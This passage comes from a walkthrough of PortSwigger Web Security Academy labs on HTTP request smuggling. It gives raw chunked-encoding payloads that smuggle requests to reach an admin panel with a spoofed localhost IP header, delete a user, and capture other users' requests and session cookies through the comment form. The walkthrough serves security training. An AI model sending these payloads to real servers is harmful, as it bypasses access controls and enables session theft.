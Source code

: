 5. Make a note of the name of the`` X-*-IP`` header in the rewritten request, and use it to access the admin panel:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
6. Using the previous response as a reference, change the smuggled request URL to delete the user carlos:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

## Exploiting HTTP request smuggling to capture other users' requests
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests


### Solution
1. Visit a blog post and post a comment.
3. Send the ``comment-post`` request to Burp Repeater, shuffle the body parameters so the ``comment`` parameter occurs last, and make sure it still works.
Increase the ``comment-post`` request's ``Content-Length`` to 400, then smuggle it to the back-end server:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token
```